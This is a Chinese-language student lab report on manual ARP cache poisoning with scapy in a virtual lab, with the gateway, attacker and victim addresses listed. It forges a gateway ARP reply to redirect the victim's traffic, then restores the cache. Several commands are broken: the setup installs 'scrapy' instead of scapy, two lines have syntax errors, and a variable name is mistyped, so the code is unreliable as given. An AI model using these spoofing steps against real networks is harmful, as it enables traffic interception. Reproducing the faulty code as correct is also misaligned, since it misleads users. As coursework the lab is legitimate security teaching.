






# 第四章 网络监听实验 重新配置拓扑补充第二次实验

### 配置信息

- 网关（Debian-gw）
  - MAC地址：08:00:27:ff:b8:28  /enp0s9
  - IP地址：172.16.111.1
- 攻击者（attacker-kali）
  - MAC地址：08:00:27:0e:95:b9
  - IP地址：172.16.111.141
- 受害者（victim-kali-1）
  - MAC地址：08:00:27:c5:c0:21 /eth0
  - IP地址：172.16.111.130

## 实验准备

### 安装scapy

```bash
# 安装 python3
sudo apt update
sudo apt install python3 python3-pip
# 安装scrapy
pip3 install scrapy[complete]
```




## 实验过程

### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码均在攻击者主机 scapy 终端完成

```bash
# 获取当前局域网的网关MAC地址
# 构造一个ARP请求
arpboradcast = Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 0,pdst= ="172.16.111.1")

#查看构造好的ARP报文请求
arpboradcast.show()
```



```bash
# 伪造一个网关的ARP响应包
# 攻击者主机准备发给受害者主机 IP：172.16.111.130
# ARP响应的目的MAC地址设置为攻击者主机的MAC地址 08:00:27:0e:95:b9
arpspoofed = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.130",hwdst="08:00:27:0e:95:b9")

# 发送上述伪造的ARP响应数据包
sendp(arpspoofed)
```



此时，在受害者主机上查看ARP缓存，网关的MAC地址已被替换为攻击者主机的MAC地址

```bash
ip neigh
```



继续回到攻击者主机scapy终端

```bash
# 回复受害者主机的ARP缓存记录
## 伪装网关给受害者发送ARP响应
restoreptk1 = Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:ff:b8:28",pdst="172.16.111.130",hwdst"08:00:27:c5:c0:21")
sendp(restorepkt1,count=100,inter=0.2)

## (选做)
restorepkt2 = Ether()/ARP(op=2,pdst="172.16.111.1",hwdst="08:00:27:ff:b8:28",psrc="172.16.111.130",hwsrc="08:00:27:c5:c0:21")
```



此时，到受害者主机上准备刷新网关ARP记录

```bash
# 在受害者主机上尝试ping网关
ping 172.16.111.1
# 等ARP缓存刷新成功，退出ping
# 查看受害者主机上ARP缓存，已恢复正常网关ARP记录
ip neigh
```




## 参考资料

[网络安全电子教材](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

[参考资料](https://github.com/CUCCS/2022-ns-public-Xuyan-cmd/tree/chap0%C3%9704)